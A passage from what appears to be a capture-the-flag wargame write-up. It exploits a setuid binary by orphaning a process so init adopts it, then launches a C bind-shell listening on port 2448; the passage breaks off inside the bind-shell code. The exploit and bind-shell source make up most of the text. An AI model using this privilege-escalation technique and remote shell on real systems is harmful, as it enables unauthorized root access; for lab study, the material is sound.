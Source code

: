   printf("You are unauthorized to run this program\n");
}
{% endcodeblock %}

To pass the last challenge, our process parent id should match uid 0. This
could be easily achieved when the parent dies and the process is adopted by
init.

Exploit:
{% codeblock lang:c exploit19.c %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char * argv) {

    pid_t childpid = fork();

    if (childpid == 0) { /* child */
        char *cmd = "/home/flag19/flag19";
        char *argv[] = { "/bin/sh", "-c", "/tmp/bindshell" };

        sleep(3);
        execv(cmd, argv);
    } else { sleep(1); exit(1); }
}
{% endcodeblock %}

Binding shell to port 2448, binary will be called from exploit.
{% codeblock lang:c bindshell.c %}
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(int argc, char **argv)
{
        int sockfd;
        int clientfd;
        socklen_t cli_len;

        struct sockaddr_in srv_addr;
        struct sockaddr_in cli_addr;

        srv_addr.sin_family = AF_INET;
        srv_addr.sin_port = htons(2448);
        srv_addr.sin_addr.s_addr = htonl(INADDR_ANY);

        sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);

        bind(sockfd, (struct sockaddr *)&srv_addr, sizeof(srv_addr));
        listen(sockfd, 0);

        /* accept new connections */
        cli_len = sizeof(cli_addr)-1;
        clientfd = accept(sockfd, (struct sockaddr *)&cli_addr, &cli_len );
